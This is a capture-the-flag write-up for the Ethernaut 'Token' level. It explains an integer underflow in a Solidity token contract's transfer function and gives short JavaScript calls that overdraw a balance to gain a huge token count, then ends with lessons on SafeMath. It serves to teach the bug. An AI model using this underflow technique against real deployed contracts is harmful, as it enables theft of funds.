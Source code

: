 # Level 5: Token

## Challenge Overview

The `Token` challenge demonstrates integer underflows in Solidity.  
The goal is to exploit an underflow vulnerability to increase your token balance.

## Goal

- Exploit the `transfer` function to gain a large balance of tokens.

## Solution

The vulnerable `transfer` function looks like this:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

To exploit this:

### 1. Transfer more tokens than your current balance

```javascript
// pick any “victim” address (even an empty one)
const victim = "0x0000000000000000000000000000000000000001";

// transfer more than your balance (20 → underflow)
await contract.transfer(victim, 21);
```

The subtraction underflows, giving you a huge balance.

### 2. Verify your balance

```javascript
const balance = await contract.balanceOf(player);
console.log(balance.toString());
```

---

## Lessons Learned

- Always use safe math libraries like OpenZeppelin’s SafeMath.
- Solidity 0.8.0 and later automatically revert on overflow/underflow.
